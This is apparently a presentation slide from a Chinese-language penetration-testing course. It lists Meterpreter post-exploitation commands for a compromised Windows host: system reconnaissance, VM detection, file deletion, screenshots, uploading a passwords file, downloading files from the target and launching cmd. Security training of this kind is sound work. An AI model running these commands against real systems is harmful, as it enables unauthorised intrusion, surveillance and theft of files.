

控制Meterpreter

获取目标主机详细信息：meterpreter > sysinfo
检查是否运行虚拟机：meterpreter > run post/windows/gather/checkvm
访问文件系统：meterpreter > rm desktop.ini
屏幕截图： meterpreter > screenshot
上传文件：meterpreter > upload /root/passwords.txt  （ls查看C:/Windows/System32/ ）
下载文件：meterpreter > download C:/Windows/System32/baxian.jpg
运行程序：meterpreter > execute –s l –f cmd